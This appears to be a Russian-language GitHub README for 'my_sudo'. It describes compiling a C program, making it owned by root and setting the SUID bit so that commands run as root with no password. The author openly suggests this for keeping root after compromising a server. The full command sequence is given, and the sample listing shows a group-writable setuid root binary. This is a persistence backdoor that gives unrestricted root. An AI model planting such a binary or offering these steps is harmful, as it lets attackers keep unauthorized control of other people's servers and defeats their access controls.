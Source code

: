 # my_sudo

Привет всем, знаю достаточно простой, но действенный способ повысить себе привелегии на сервере, если у вас есть временно права root, но вы нехотите терять эти права.

Это может-быть полезно, либо после взлома сервера например.

Бывают ситуации, когда например у вас есть рутовые привелегии на сервере, но вы нехотите их терять, короче полезно даже в мирных целях.)

Итак, как-то решил я написать программу, которая-бы запускала команды в терминале, с правами рута, но без ввода пароля, да вроде несложная программа, которая просто запускает команды с привилегиями администартора (код можете глянуть в этой ветке на гитхабе).

Идея очень простая, в линуксе есть специальный флаг SUID (Set UID) — программа, у которой установлен этот бит, выполняется с правами хозяина файла программы. Имеет смысл только при установке на исполняемые файлы.

Итак, если мы соберем файл из репозитория:

gcc my_sudo.c -o my_sudo

Далее, устанавливаем владельца и группу root:

chown root:root my_sudo

Устанавливаем флаг SUID:

sudo chmod u+s my_sudo

Проверяем:

ls -l my_sudo

-rwsrwxr-x 1 root root 8896 сен 10 10:49 my_sudo

Всё, теперь можно выполнять команды от рута, без ввода пароля.)

./my_sudo whoami

root
